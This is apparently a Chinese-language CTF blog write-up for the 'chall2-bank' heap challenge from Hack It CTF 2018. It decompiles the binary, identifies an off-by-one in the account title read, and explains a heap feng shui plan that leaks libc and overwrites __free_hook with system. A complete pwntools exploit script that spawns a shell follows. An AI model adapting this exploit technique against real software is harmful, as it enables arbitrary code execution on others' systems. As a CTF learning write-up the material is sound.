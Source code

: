 ```yaml
---
title: chall2-bank
date: 2018-10-20 23:37:51
tags: pwn FengShui heap
layout: page
---
```

hack it ctf 2018
chall2-bank
<!--more-->
# start
前几天写的当时记得保存了....
然后今天重建博客的时候发现没了...

# Analysis
这几天看了hitcon的pwn题感觉菜单题还是挺友好的
程序主要是以下功能
```arm
Letter
1. Create an account
2. Edit the title
3. Edit your statement
4. Shut down your account
5. View your bank status
```
主要涉及到的结构体是:
```arm
00000000 act             struc ; (sizeof=0x28, mappedto_6)
00000000 check           dq ?
00000008 size            dq ?
00000010 statement       dq ?                    ; offset
00000018 title           db 16 dup(?)
00000028 act             ends
00000028
```

本题特色每次做完操作都会检查一遍malloc_hook 和 每个被记录的act的chec位
```arm
__int64 check()
{
  __int64 result; // rax
  signed int i; // [rsp+4h] [rbp-Ch]

  for ( i = 0; i <= 19; ++i )
  {
    if ( account[i] && *(_DWORD *)account[i]->check != 0x60C0C748 )
    {
      puts("LOL you are bankrupt");
      exit(0);
    }
  }
  result = *(_QWORD *)dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "__malloc_hook");
  if ( result )
    exit(0);
  return result;
}
```
每次malloc的大小都是fastbin内

# 漏洞
漏洞点比较明显:
```arm
unsigned __int64 add()
{
  int size; // [rsp+0h] [rbp-20h]
  int i; // [rsp+4h] [rbp-1Ch]
  act *ptr; // [rsp+8h] [rbp-18h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  for ( i = 0; i <= 19 && account[i]; ++i )
    ;
  if ( i <= 19 )
  {
    ptr = (act *)malloc(0x28uLL);
    ptr->check = (__int64)&magic;
    LODWORD(ptr->size) = 16;
    printf("Enter title of bank account: ");
    read(0, ptr->title, 0x11uLL);               // offbyone
    printf("Enter size of your bank statement: ", ptr->title);
    fflush(stdout);
    scanf("%d\n", &size);
    fflush(stdout);
    if ( size + 8 > 0x70 )
    {
      puts("Only fast allowed");
      exit(0);
    }
    if ( size <= 0 )
      exit(0);
    ptr->statement = (char *)malloc(size + 8);
    fgets(ptr->statement, size, stdin);
    account[i] = ptr;
    printf("Account has been created at index %d\n", (unsigned int)i);
  }
  else
  {
    puts("No space left");
  }
  return __readfsqword(0x28u) ^ v4;
}
```
在读入title的时候offbyone

# 思路
* offbyone 盖掉size free进入unsorted bin
* malloc调整堆块leak出heap和libc（虽然heap没啥用...）
* 因为mallochoook没得用又是full relro 所以只能找其他hook
    * free_hook 首选...
    * 首先做fastbin atk 改写掉topchunk指针到freehook前
    * 但是free_hook前没啥可以作为size位的数据所以要自己构造 用unsorted bin atk
    * 然后做一个fastbinatk 之前要在fast bins 中留下size位
* 改写free hook->system free("/bin/sh")

# 风水(坑点)
* 前方留下一堆和act size一样的chunk 到后面0x30不够用了就free一些优化结构
* 做完泄露之后别急着继续，先去调整一下heap 
* 泄漏完之后不要把unsorted bin 放进 smallbin 否则你会后悔的
* 在fastbin留下做fastbinatk的size1位
* 先想好再构造否则改死你

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("bank status\n",str(c))
def add(title,size,state="A"):
	cmd(1)
	p.sendafter("Enter title of bank account: ",title)
	p.sendlineafter("Enter size of your bank statement: ",str(size-8))
	p.sendline(state)
def free(idx):
	cmd(4)
	p.sendlineafter("Enter index of bank account: ",str(idx))
def show(idx):
	cmd(5)
	p.sendlineafter("Enter index of bank account: ",str(idx))#
#context.log_level='debug'
p=process("./chall2-bank")
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
add("A"*11,0x28)
free(0)
add("A"*11,0x38)#0
add("A"*0x10+'\xd1',0x28)#1
add("A",0x28)#2
add("A",0x28)#3
free(0)
add("A",0x70)#0
fake=0x00007f7a1d095000
#leak
show(2)
p.readuntil("Title: ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7bcdb78-fake)
p.readuntil("Statement: ")
heap=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x555555757130-0x555555757000)
log.warning(hex(base))

libc.address=base

#fix
free(3)
add("A",0x48)#3
#fixover
#leakover
add("B"*11,0x28)#4
free(4)
add("B"*11,0x38)#4


##5
cmd(1)
p.sendafter("Enter title of bank account: ","B"*0x10+'\xf1')
p.sendlineafter("Enter size of your bank statement: ",str(0x48-8))
p.send("\x00"*0x38+'\x41\x00\x00\x00\x00\x00\x00\x0a')
##5

free(1)
add("A",0x70,p64(0)*3+p64(0x21)*9)#1
add("B",0x70)#6
add("C",0x28)#7

free(5)
free(4)
free(1)
free(7)

add("A",0x58,p64(0)*7+p64(0x51)+p64(0x7ffff7bcdb50-fake+base))#1
add("A",0x58,p64(0)*3+p64(0x41)+p64(0)+p64(0x81)+p64(0x51))#4

add("A",0x70,p64(0)*3+p64(0x21)+p64(0)+p64(0x31)+p64(0)+p64(0x7ffff7bcf7a0-fake+base-0x10)+p64(0x00000000000020)+p64(0x20)*3)#5
add("A",0x48)#7

add("CCTV",0x28)#8

free(8)

add("A",0x48,p64(0)*3+p64(0x7ffff7bcf7a0-8-fake+base)+p64(0)+p64(0x7ffff7bcdb78-fake+base)+p64(0x7ffff7bcdb78-fake+base))#8

add("A",0x18,p64(0x7ffff784e390-fake+base))

add("A",0x18,"/bin/sh")#10

free(10)
p.interactive("neir>")



```